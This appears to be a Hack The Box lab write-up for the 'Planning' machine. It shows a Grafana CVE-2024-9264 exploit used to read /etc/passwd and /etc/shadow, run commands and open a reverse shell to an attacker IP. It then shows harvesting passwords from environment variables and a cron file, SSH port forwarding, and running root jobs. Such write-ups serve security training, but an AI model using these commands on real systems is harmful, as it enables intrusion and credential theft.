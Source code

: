 ![https://app.hackthebox.com/machines/660](https://app.hackthebox.com/machines/660)

## INFO

`admin / 0D5oT70Fq13EvB5r`

## ENUM

```
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
```

```
gobuster vhost -u http://planning.htb --append-domain -w /usr/share/wordlists/namelist.txt -r                  
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://planning.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/wordlists/namelist.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: grafana.planning.htb Status: 200 [Size: 38241]
```

## Initial access:

Since the site itself didn’t give me any leads, I decided to check:
`grafana.planning.htb`

and I used the provided credentials.

On Grafana nothing interesting, so I looked for an exploit and found:
[https://github.com/nollium/CVE-2024-9264/tree/main](https://github.com/nollium/CVE-2024-9264/tree/main)

I tested it and set up a virtual environment:

```
┌──(neo㉿Kali)-[~/Desktop/exploit/CVE-2024-9264(graphana_RCE)]
└─$ export PATH="$HOME/.pyenv/bin:$PATH"
eval "$(pyenv init -)"
eval "$(pyenv virtualenv-init -)"

┌──(neo㉿Kali)-[~/Desktop/exploit/CVE-2024-9264(graphana_RCE)]
└─$ exec "$SHELL"

┌──(neo㉿Kali)-[~/Desktop/exploit/CVE-2024-9264(graphana_RCE)]
└─$ pyenv virtualenv 3.10.13 ten-env

┌──(neo㉿Kali)-[~/Desktop/exploit/CVE-2024-9264(graphana_RCE)]
└─$ pyenv activate ten-env
```

Finally I attempted the exploit:

```bash
python3 exploit.py -u admin -p 0D5oT70Fq13EvB5r -f /etc/passwd http://grafana.planning.htb
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Reading file: /etc/passwd
...
grafana:x:472:0::/home/grafana:/usr/sbin/nologin
```

I also tried to get `/etc/shadow`:

```bash
python3 exploit.py -u admin -p 0D5oT70Fq13EvB5r -f /etc/shadow http://grafana.planning.htb
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Reading file: /etc/shadow
...
grafana:*:19857:0:99999:7:::
```

But this shows it’s not crackable because of the `*` at the start of the hash!

I tried to obtain a shell:

```bash
python3 exploit.py -u admin -p 0D5oT70Fq13EvB5r -c ls http://grafana.planning.htb
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Executing command: ls
...
LICENSE
bin
conf
public
```

The command works, so I tried various revshell payloads but everything failed so I found another PoC here:
[https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit/blob/main/poc.py](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit/blob/main/poc.py)

which allows a reverse shell connection:

```python
python3 exploit.py --username admin --password 0D5oT70Fq13EvB5r --reverse-ip 10.10.14.123 --reverse-port 4848 --url http://grafana.planning.htb
[SUCCESS] Login successful!
Reverse shell payload sent successfully!
Set up a netcat listener on 4848
```

---

## OWN USER:

While exploring I found this in the environment variables:

```
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
AWS_AUTH_SESSION_DURATION=15m
GF_SECURITY_ADMIN_USER=enzo
```

A user: `enzo`
And a password: `RioTecRANDEntANT!`

And this found by linpeas:

```
/usr/share/grafana/public/app/plugins/datasource/azuremonitor/credentials.ts
/usr/share/grafana/public/emails/reset_password.html
/usr/share/grafana/public/emails/reset_password.txt
/usr/share/grafana/public/app/partials/reset_password.html
```

I keep that in mind, but for now I tried SSH login with the found user and password — and it worked!

---

### OWN ROOT

I reran linpeas and found these files:

```
Found /opt/crontabs/crontab.db: New Line Delimited JSON text data                                                   
Found /opt/crontabs/env.db: empty
```

Network ports:

```
127.0.0.1:3000 (Grafana)
127.0.0.1:8000 (web service)
127.0.0.1:3306 (MySQL)
127.0.0.1:33060
0.0.0.0:80
```

So another internal web server is open.

I downloaded the files for analysis and then did port forwarding:

**crontab.db**

```json
{"name":"Grafana backup","command":"/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz","schedule":"@daily","stopped":false,"timestamp":"Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740774983276,"saved":false,"_id":"GTI22PpoJNtRKg0W"}
{"name":"Cleanup","command":"/root/scripts/cleanup.sh","schedule":"* * * * *","stopped":false,"timestamp":"Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740849309992,"saved":false,"_id":"gNIRXh1WIc9K7BYX"}
```

I found a password linked to root: `P4ssw0rdS0pRi0T3c` — however it is not the actual root password, maybe linked to the web service?

I forwarded:
`ssh enzo@10.10.11.68 -L 8000:127.0.0.1:8000`

And I connected to the interface with:
`root / P4ssw0rdS0pRi0T3c`

And I landed on an interface that lets me run jobs as root, perfect!

I made a bash script to exfiltrate the contents of root with a simple:
`ls /root > /tmp/.zeroz/result`

I saw `root.txt` in the results, so I exfiltrated it:
`cat /root/root.txt > /tmp/.zeroz/flag`